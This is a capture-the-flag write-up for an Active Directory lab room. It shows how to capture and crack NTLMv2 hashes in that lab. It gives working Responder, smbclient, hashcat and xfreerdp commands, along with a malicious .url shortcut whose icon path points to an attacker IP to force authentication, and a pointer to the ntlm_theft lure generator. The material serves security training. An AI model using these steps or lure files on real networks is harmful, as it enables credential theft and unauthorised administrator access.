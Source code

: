 # Relay All the Way

## Solution
- Hit "Start Machine".
- What is the name of the AD authentication protocol that makes use of tickets?
<br/>
It is written in the description.
- What is the name of the AD authentication protocol that makes use of the NTLM hash?
<br/>
It is written in the description.
- What is the name of the tool that can intercept these authentication challenges?
<br/>
It is written in the description.
- What is the password that McGreedy set for the Administrator account?
<br/>
Run Responder.
```bash
sudo responder -I <INTERFACE>
```
Connect to SMB shared folder ElfShare.
```bash
smbclient -N  \\\\<IP>\\ElfShare
```
Get "greedykeys.txt" file.
```bash
get greedykeys.txt
```

![Alt text](image.png)

Save the following content into a file called "clickme.url".
```bash
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<ATTACKER IP>\icon
IconIndex=1
```
Upload malicious url file.
```bash
put clickme.url
```
Wait for a couple of minutes and retrieve the NTLMv2 hash from Responder output.

![Alt text](image-1.png)

Copy the hash in a file calleed "hash.txt" and run hashcat to crack it. Use "greedykeys.txt" as wordlist.
```bash
hashcat -m 5600 hash.txt greedykeys.txt -O
hashcat -m 5600 hash.txt --show
```

![Alt text](image-2.png)

A file lnk can be used as well instead of an url file. Generate the lnk file with the tool ntlm_theft (https://github.com/Greenwolf/ntlm_theft) and then upload it in the ElfShare SMB shared folder.
```bash
python3 ntlm_theft.py -g lnk -s <ATTACKER IP> -f clickme
```

- What is the value of the flag that is placed on the Administrator’s desktop?
<br/>
Connect via RDP to get the flag on the Administrator's desktop.
```bash
xfreerdp /u:administrator /p:<PASSWORD> /v:<IP>
```

![Alt text](image-3.png)
